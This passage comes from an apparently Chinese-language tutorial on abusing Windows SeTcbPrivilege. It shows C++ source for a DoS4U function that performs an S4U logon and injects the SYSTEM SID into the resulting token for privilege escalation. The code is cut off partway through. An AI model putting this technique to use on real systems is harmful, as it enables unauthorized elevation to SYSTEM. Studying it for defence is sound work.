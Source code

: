 ```c++
		status = TRUE;
	}
	return status;
}
```

然后直接调用 `DoS4U()` 函数，在该函数中执行 S4U 登录等操作。

### DoS4U

`DoS4U()` 函数的内容如下：

```c++
NTSTATUS DoS4U(HANDLE hToken)
{
	NTSTATUS status = 0;
	NTSTATUS subStatus = 0;
	HANDLE hThread = NULL;
	HANDLE phNewToken = NULL;
	PTOKEN_GROUPS pGroups = NULL;
	PSID pLogonSid = NULL;
	PSID pExtraSid = NULL;
	DWORD dwMsgS4ULength;

	PBYTE pbPosition;

	DWORD dwProfile = 0;
	LUID logonId = { 0 };
	ULONG profileBufferLength;
	PVOID profileBuffer;
	QUOTA_LIMITS quotaLimits;
	HANDLE hTokenS4U = NULL;
	PVOID pvProfile = NULL;

	LSA_STRING OriginName = { 15, 16, (PCHAR)"S4U for Windows" };
	PMSV1_0_S4U_LOGON pS4uLogon = NULL;
	TOKEN_SOURCE TokenSource;

	TOKEN_MANDATORY_LABEL TIL = { 0 };

	LPCWSTR szDomain = L".";
	LPCWSTR szUsername = L"John";//the user who has SeTcbPrivilege

	WCHAR systemSID[] = L"S-1-5-18";
	ConvertStringSidToSidW(systemSID, &pExtraSid);

	WCHAR mediumInt[] = L"S-1-16-8192";
	PSID mediumSID = NULL;
	ConvertStringSidToSidW(mediumInt, &mediumSID);

	HANDLE hThreadToken = NULL;
	PTOKEN_MANDATORY_LABEL pTokenIntegrityLevel = NULL;
	DWORD dwLength;
	LPWSTR lpGroupSid;

	if (!GetLogonSID(hToken, &pLogonSid))
	{
		wprintf(L"[-] Unable to find logon SID.\n");
		goto Clear;
	}

	if (!NT_SUCCESS(LsaInit()))
	{
		wprintf(L"[-] Failed to start kerberos initialization.\n");
```